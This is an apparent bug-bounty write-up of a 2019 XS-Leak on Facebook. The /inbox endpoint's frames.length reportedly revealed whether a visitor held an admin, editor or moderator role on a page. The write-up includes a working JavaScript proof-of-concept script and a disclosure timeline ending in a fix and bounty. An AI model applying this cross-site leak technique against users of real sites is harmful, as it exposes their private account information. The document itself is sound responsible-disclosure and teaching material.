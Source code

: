 ```yaml
---
title: XSLeaks Leaking the page roles of users 
date: 2019-06-21 14:20:21 +0800
categories: [Bug-Bounty, Writeup]
tags: [facebook]
---
```


# Description

I was reading this [blog](https://www.imperva.com/blog/facebook-privacy-bug/) about XSLeaks issue in facebook which using window.length to return a number of frames inside the document and use it to extract data from facebook user who visit the Third Party website.
So, i start to find the same issue in facebook and i found the same thing in https://web.facebook.com/page_username/inbox. You can check if the endpoint has the same issue by typing frames.length in the browser console, in my case it return 3 and This endpoint is only accessible by user who has admin/editor/moderator role. So, if user with no role or had different role besides admin, editor and moderator, it will display a 404 page and the 404 page has 0 frames.length.

# Impact

The vulnerability reported leaked the page role of users using frames.length through /inbox endpoint. Thank you for reporting this to us.

# Steps to reproduce 

```html
<script>
var page = "Your Page Username"
if (fb === undefined) {
    var fb = window.open() // Creating window reference
}
fb.location = 'https://web.facebook.com/'+page+'/inbox/' // Change the window location
setTimeout(() => {
        var answer = fb.frames.length == 0 ? 'No' : 'Yes'
        var mb = fb.frames.length > 1 ? 'No' : 'Yes'
        console.log('Are you an Admin/Editor/Moderator in : ' + page + ' ? -- ' + answer +' Mailbox Empty ? -- '+ mb)
        fb.close()
    }, 5000)
</script>
```

## Video 

<iframe width="560" height="315" src="https://www.youtube.com/embed/ObybF6GJTHI" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>



# Timeline

- May 20, 2019 - Report sent
- May 23, 2019 - Triaged
- Jun 11, 2019 - Fixed
- Jun 21, 2019 - Bounty awarded $750
